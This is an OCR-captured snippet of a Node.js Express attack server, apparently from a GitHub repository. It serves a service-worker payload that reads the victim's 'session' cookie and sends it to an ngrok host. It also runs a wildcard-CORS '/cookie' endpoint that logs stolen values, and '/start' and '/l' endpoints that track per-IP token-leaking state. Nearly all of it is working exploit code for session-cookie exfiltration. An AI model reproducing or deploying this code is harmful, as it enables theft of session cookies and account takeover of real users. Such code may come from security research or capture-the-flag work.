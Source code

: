 ```js
        'https://storage.googleapis.com/workbox-cdn/releases/6.5.3/workbox-sw.js'
    );
    
    self.cookieStore.get('session')
    .then((cook) => {
        fetch('https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app/cookie?xx='+ cook.value)
    });
    `;
    response.writeHead(200, { 'Content-Type': 'text/javascript' });
    response.write(payload)
    response.end()
});

app.use('/cookie', function(request, response) {
    const headers = {
        'Access-Control-Allow-Origin': '*', /* @dev First, read about security */
        'Access-Control-Allow-Methods': 'OPTIONS, POST, GET',
        'Access-Control-Max-Age': 2592000
        }

        if (request.method === 'OPTIONS') {
            response.writeHead(204, headers);
            response.end();
            return;
        }

        if (['GET', 'POST'].indexOf(request.method) > -1) {
            console.log(request.url);
            response.writeHead(200, headers);
            response.end('Hello World');
            return;
        }
})


app.use('/start', function (request, response) {
    if (session.size > MAX_SESSION_AMOUNT) {
        deleteOldSessions(Math.floor(MAX_SESSION_AMOUNT / 2));
    }
    const ip = getIP(request);
    const settings = new Map();
    settings.set("init", true);
    settings.set('n', 0);
    settings.set('tokens', []);
    settings.set('prefixes', new Map());
    settings.set('foundToken', false);
    settings.set('currentElementPos', 0);
    session.set(ip, settings);
    genResponse(request, response, 0);
});

app.use('/l', function (request, response) {
    let req = url.parse(request.url, url);
    const ip = getIP(request);
    if (!hasSession(ip)) {
        response.end();
        return;
    }
    const n = session.get(ip).get('n');
    const prefixes = session.get(ip).get('prefixes');
    const currentElementPos = session.get(ip).get('currentElementPos');
    response.end();
```